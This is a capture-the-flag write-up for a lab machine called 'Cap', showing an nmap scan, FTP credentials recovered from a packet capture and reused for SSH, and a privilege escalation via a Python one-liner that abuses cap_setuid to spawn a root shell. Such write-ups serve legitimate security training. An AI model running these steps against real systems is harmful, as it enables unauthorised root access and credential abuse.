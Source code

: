 # Cap

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/c4426d24-4e51-48e1-b59e-f97a50b8d234)

## Difficulty = Easy
---
First of all, let run our nmap scan

```sh
# Nmap 7.94 scan initiated Tue Aug 15 05:45:42 2023 as: nmap -p- -sCV -v --min-rate=1000 -T4 -oN nmap.txt 10.10.10.245
Increasing send delay for 10.10.10.245 from 0 to 5 due to 215 out of 537 dropped probes since last increase.
Increasing send delay for 10.10.10.245 from 5 to 10 due to 148 out of 369 dropped probes since last increase.
Warning: 10.10.10.245 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.245
Host is up (0.25s latency).
Not shown: 58006 filtered tcp ports (no-response), 7526 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 15 Aug 2023 09:53:04 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94%I=7%D=8/15%Time=64DB4B00%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2808,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Tue,\x2015\x20Aug\x202023\x2009:53:02\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,\x2
SF:015\x20Aug\x202023\x2009:53:04\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20GET,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20T
SF:ue,\x2015\x20Aug\x202023\x2009:53:12\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 15 05:54:56 2023 -- 1 IP address (1 host up) scanned in 553.98 seconds
```

We have port 21, 22 and 80, i can't login to FTP with anonymous credentials

![](https://i.imgur.com/pd5IXV7.png)

Checking port 80/HTTP, we have a dashboard, Nothing seems wrong.

![](https://i.imgur.com/ALDanMS.png)

But navigating to the  `Security Snapshot (5 Second PCAP + Analysis)` section gives us few packets

![](https://i.imgur.com/hTu5tui.png)

Analyzing the packets gives us nothing much so i decided to FUZZ for directories using ffuf, we might find something useful 🌚

![](https://i.imgur.com/b8O0WAW.png)

Looks like alot , after minutes of sorting, i found out 0 was the  special one

![](https://i.imgur.com/80TRjan.png)

Analyzing the packets gives us FTP credentials

![](https://i.imgur.com/APp06H9.png)

Login in and we have the user.txt flag

![](https://i.imgur.com/tuVPCls.png)

There was nothing much in the FTP server so, i decided to use the same credentials for SSH

![](https://i.imgur.com/JTSG3ud.png)

Funny Enough it worked 🤟😀

Let Escalate privileges

Running `getcap -r / 2>/dev/null` gives us some list of capabilities

![](https://i.imgur.com/gqL3LBX.png)

We have an unusual capability which is `/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip` 

- Going to `GTFOBINS` , gives us an exploit 

![](https://i.imgur.com/WZEMk3W.png)

- We can tweak our payload to this `/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'` , Then we got root :

![](https://i.imgur.com/cwNk4pd.png)

Bankai 🧘‍♀️!!!!

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


